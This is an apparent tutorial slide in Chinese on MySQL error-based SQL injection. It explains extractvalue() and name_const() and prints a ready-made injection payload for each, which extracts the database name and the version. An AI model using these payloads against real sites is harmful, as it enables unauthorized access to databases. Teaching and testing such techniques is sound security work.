

# 其他方法
extractvalue()函数也是MYSQL对XML文档数据进行查询和修改的XPATH函数
or extractvalue(1,concat(0x7e,database())) or
name_const()函数是MYSQL5.0.12版本加入的一个返回给定值的函数。当用来产生一个结果集合列时 , NAME_CONST() 促使该列使用给定名称。
or (SELECT * FROM (SELECT(name_const(version(),1)),name_const(version(),1))a) or
注意，高版本的mysql能获取表信息